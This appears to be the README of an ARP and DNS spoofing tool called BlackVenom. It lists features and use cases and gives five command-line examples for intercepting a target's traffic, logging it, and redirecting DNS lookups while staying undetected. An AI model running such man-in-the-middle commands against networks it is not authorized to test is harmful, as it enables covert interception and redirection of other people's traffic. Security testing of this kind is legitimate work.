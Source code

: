 # 🕷️ BlackVenom: The Ultimate Ethical ARP and DNS Spoofing Tool 🕸️

**BlackVenom** is a powerful ARP and DNS spoofing tool designed for ethical hackers and cybersecurity professionals. 🛡️ This utility allows you to seamlessly intercept and log network traffic, providing valuable insights into network vulnerabilities while remaining undetected. 🕵️‍♂️⚡

Built with stealth and precision in mind, **BlackVenom** operates like a digital venomous strike: fast, effective, and silent. 🖤 Whether you're conducting penetration tests, monitoring network vulnerabilities, or analyzing traffic for security research, **BlackVenom** empowers you to take full control of ARP tables and spoof DNS requests for educational and professional purposes. 🖥️💉

### Disclaimer ⚠️
BlackVenom is intended for ethical use only. Misuse of this tool against unauthorized systems is illegal and may result in severe penalties. Always obtain permission before testing network security. 📜

Join the BlackVenom web of digital defenders and harness the power of stealthy network manipulation for the greater good! 🕸️✨

### Key Features:
- **🌐 ARP Spoofing Mastery**: Perform bidirectional ARP spoofing to impersonate devices and intercept traffic between them. 🔄
- **🔍 DNS Spoofing Capabilities**: Redirect DNS requests to specified IP addresses, enabling control over domain resolutions. 📡
- **📄 Traffic Logging**: Capture and log all intercepted network traffic in a configurable PCAP file for later analysis. 📂
- **⚙️ Ethical & Stealthy**: Designed for ethical hacking, ensuring you stay invisible while uncovering security flaws. 🕶️

### Use Cases:
- **Network Penetration Testing**: Assess the security of networks by identifying weaknesses in ARP protocols and DNS resolutions. 🔍🛡️
- **Security Auditing**: Log and analyze network traffic to discover potential vulnerabilities and improve network defenses. 📊🔒
- **Educational Purposes**: Learn and teach network security concepts through practical, hands-on experience with ARP and DNS spoofing techniques. 🎓📚
- **Traffic Analysis**: Monitor and capture traffic for forensic investigations or to understand user behavior on a network. 🔍📈

### Usage Examples

#### Example 1: Basic ARP Spoofing
This command performs a basic ARP spoofing attack between a target and a gateway without enabling packet logging or DNS spoofing. 🔗

```bash
sudo python black_venom_cli.py \
    --target_ip 192.168.11.128 \
    --gateway_ip 192.168.11.2 \
    --interface eth0
```

#### Example 2: ARP Spoofing with Traffic Logging
In this example, packet logging is enabled while performing ARP spoofing. 📝

```bash
sudo python black_venom_cli.py \
    --target_ip 192.168.11.128 \
    --gateway_ip 192.168.11.2 \
    --interface eth0 \
    --enable_logging \
    --log_file ~/Desktop/captured_packets.pcap

```


#### Example 3: ARP Spoofing and DNS Spoofing
This command enables both ARP spoofing and DNS spoofing, redirecting DNS requests for a specific domain. 🌐🔀

```bash
sudo python black_venom_cli.py \
    --target_ip 192.168.11.128 \
    --gateway_ip 192.168.11.2 \
    --interface eth0 \
    --enable_logging \
    --log_file ~/Desktop/captured_packets.pcap
```

#### Example 4: Multiple DNS Records
Here multiple DNS records are redirected to a specific IP. This command performs ARP and DNS spoofing while logging traffic. 📄🔄

```bash
sudo python black_venom_cli.py \
    --target_ip 192.168.11.128 \
    --gateway_ip 192.168.11.2 \
    --interface eth0 \
    --enable_logging \
    --log_file ~/Desktop/captured_packets.pcap \
    --spoof_dns \
    --dns_records "example.com=192.168.11.10" "anotherdomain.com=192.168.11.11"
```

#### Example 5: No Logging but with DNS Spoofing
This example performs ARP spoofing and DNS spoofing without enabling traffic logging. 🚫📝

```bash
sudo python black_venom_cli.py \
    --target_ip 192.168.11.128 \
    --gateway_ip 192.168.11.2 \
    --interface eth0 \
    --spoof_dns \
    --dns_records "example.com=192.168.11.10"
```

### Summary of Options
- **`--target_ip`**: IP address of the target device. 💻
- **`--gateway_ip`**: IP address of the network gateway. 🌉
- **`--interface`**: Network interface to use (default is `eth0`). 🌐
- **`--enable_logging`**: Enable traffic logging to a PCAP file. 📝
- **`--log_file`**: Path and name of the PCAP file for logging. 📂
- **`--spoof_dns`**: Enable DNS spoofing. 🌐
- **`--attacker_ip`**: IP to which DNS requests should be redirected. 🚀
- **`--dns_queue_num`**: Queue number for DNS spoofing (default is `2`). 📊
- **`--dns_records`**: DNS records in the format `'domain=ip'` to redirect requests. 📜

